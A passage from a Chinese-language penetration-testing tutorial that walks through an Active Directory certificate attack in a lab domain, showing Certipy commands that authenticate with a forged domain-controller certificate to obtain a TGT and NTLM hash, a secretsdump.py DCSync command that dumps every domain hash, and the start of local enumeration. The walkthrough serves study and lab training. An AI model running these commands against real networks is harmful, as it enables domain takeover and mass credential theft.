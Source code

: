 最后一步便是通过 Certipy 使用获得的证书发起一次 Kerberos 证书认证，以获得 DC 机器账户的 TGT 票据和 NTLM 哈希，命令如下：

    certipy auth -pfx juggernaut-dc.pfx -ns 172.16.1.5
    
    #新版 certipy 用法如下：
    certipy-ad auth -pfx juggernaut-dc.pfx 172.16.1.5
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183955840-1010266851.png)

可以看到，我们不仅获得了 TGT 票据，还获得了 NTLM 哈希值。

#### **

3.4、利用哈希传递转储 DC 所有账户的哈希

**

现在，就可以使用它通过 **secretsdump.py** 执行 DCSync 攻击以转储域中所有哈希了。

    secretsdump.py juggernaut.local/'Juggernaut-DC$'@172.16.1.5 -hashes :b9220587417e53fc5294f2d705d9a20b -dc-ip 172.16.1.5
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956884-1130985940.png)

可以看到，我们在使用证书进行 kerberos 证书认证过程中获得的哈希其实就是实际的 DC 计算机帐户的哈希，而不是我们创建的那个新的计算机帐户的哈希。

**

4、本地枚举必要条件

**
------------------

在本例中，假设我们在初始枚举的过程中并没有发现用户 **efrost** 的凭据，只是凭借利用一个 Web 应用漏洞而获得了一个 efrost 身份的立足点。由于我们并不知道该用户的密码，因此无法远程枚举利用此漏洞，从而只能在本地进行枚举和利用的过程。

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183957633-1153745679.png)

接下来，我们开始枚举此次攻击所需的必要信息。

> 注：（1）DNSHostname 其实就是一个 DNS 格式的主机名称而已，使用 **主机名称 + 域名** 的组合便能获得。
> 
> （2）证书颁发机构的名称无规律可循，因此不能像上面那样组合获得。此外，一个 DC 上并非只会出现一个证书颁发机构（通常只有一个证书颁发机构），因此，甄别哪个在用很重要。
> 
> （3）ms-DS-MachineAccountQuota 的默认值为 **10**，适用于所有支持 Active Directory 的 Windows Server 版本，直到目前最新的 Windows Server 2022。

#### **

4.1、枚举 DNSHostname：nslookup

**

可使用 **nslookup** 命令查询，命令如下：

    nslookup
    set type=all
    _ldap._tcp.dc._msdcs.juggernaut.local
    